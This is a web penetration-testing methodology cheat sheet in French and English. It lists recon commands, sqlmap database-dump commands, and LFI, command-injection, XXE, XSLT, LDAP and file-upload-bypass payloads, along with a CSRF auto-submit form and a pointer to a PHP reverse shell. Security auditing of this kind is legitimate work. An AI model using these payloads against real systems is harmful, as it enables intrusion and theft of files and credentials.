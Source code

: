 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- ping www.site.com ; whois 'www.site.com' ; whois 192.168.1.1
- google dorks : search for credentials :"intext:<thetarget> AND intext:@gmail.com AND intext:password" ; theharvester    
- DNS : check DNS records : dig domain.com ANY
zone transfert test AXFR
VHOSTS ? -> HTTP header Host or /etc/hosts to access potential VHOST 
- Subdomains enum : $ amass enum -passive -d domain.com -src 
- Scan rÃ©seau : $ nmap -p- sV site.com // -A version detection -oA fichier_out
CVE ?

## Client source code
infos(CMS version)/file disclosure(.js files)/unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

URL: 
- dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) : unprotected refs [/admin/, robots.txt, sitemap.xml]
- Fichiers de sauvegarde/dev/ [index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp...]
- Full Path Disclosure [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- Redirections [curl -v] 

REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**  
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**  

**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**
exemple :
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','index.php')"/>
<xsl:value-of select="php:function('opendir','/directory/')"/>
<xsl:value-of select="php:function('chdir','/directory/')"/>
<xsl:value-of select="php:function('readdir')"/>
</xsl:template>
</xsl:stylesheet>
**XXE (XML External Entity)**
exemple dans un flux rss : 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/challenge/web-serveur/ch29/index.php" >
]>
<rss version="2.0">
    <channel>
        <title>Mon site</title>
        <description>Ceci est un exemple de flux RSS 2.0</description>
        <lastBuildDate>Sat, 07 Sep 2002 00:00:01 GMT</lastBuildDate>
        <link>http://www.example.org</link>
        <item>
            <title>&xxe;</title>
            <description>Ceci est ma premiÃ¨re actualitÃ©</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu1</link>
        </item>
        <item>
            <title>ActualitÃ© NÂ°2</title>
            <description>Ceci est ma seconde actualitÃ©</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu2</link>
        </item>
    </channel>
</rss>
- GraphQL injection : query={__schema{types{name,fields{name}}}} to enumerate 
- Php register_globals [injection variable URL]
**FILE UPLOAD**
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
